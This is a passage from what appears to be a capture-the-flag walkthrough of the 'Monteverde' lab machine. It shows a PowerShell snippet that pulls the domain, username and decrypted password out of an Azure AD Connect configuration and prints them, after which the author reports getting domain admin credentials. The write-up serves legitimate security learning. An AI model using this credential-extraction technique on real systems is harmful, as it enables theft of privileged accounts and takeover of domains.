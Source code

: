 5. Selecting the domain, username and password from the XML-formatted output and printing them to the screen.

```
$domain   = select-xml -Content $config    -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config    -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: "   + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

*With everything in place,* we run the script and get a clean set of creds ;]

![domain-admin-creds](/assets/Monteverde/domain-admin-creds.jpg)

The creds are good and the box is **owned** :D

![rooted](/assets/Monteverde/rooted.jpg)